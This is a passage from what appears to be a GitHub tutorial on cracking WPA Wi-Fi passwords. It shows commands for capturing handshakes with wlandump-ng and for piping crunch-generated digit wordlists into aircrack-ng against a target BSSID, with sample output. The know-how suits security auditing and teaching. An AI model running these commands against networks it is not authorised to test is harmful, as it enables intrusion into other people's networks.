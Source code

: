 # run with default settings in passive mode
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
Generating wordlists with crunch
crunchis a tool to generate wordlists using combinations of a given string or pattern. We can use crunch to generate a password list on-the-fly and pipe it to aircrack-ng without having the wordlist saved to disk.

# install crunch
sudo apt-get install crunch
To get an idea of how crunch works, run it from the command-line (be ready to press ctrl-c once it starts spewing passwords):

# syntax 8 8 are min-length and max-length of password to generate
# 01234567890 is the set of characters to combine/permute to construct the passwords
crunch 8 8 0123456789
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
We can pipe the output of crunch as the input to aircrack-ng, using the passwords that it generates as our wordlist. Here we use the crunch special rule character % to denote a digit. This command attempts to crack WPA passwords that are 10-digit phone numbers (using 102GB of numbers generated by crunch on-the-fly):

# we can also use -t "@^%," to use pattern '@' - replaced with lowercase ',' - replaced with uppercase
# '%' - replaced with numbers and '^' - is replaced with special chars
# *************** don't forget '-' at the end
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
Thanks to @hiteshnayak305 for the introduction to crunch and including this update as a PR.
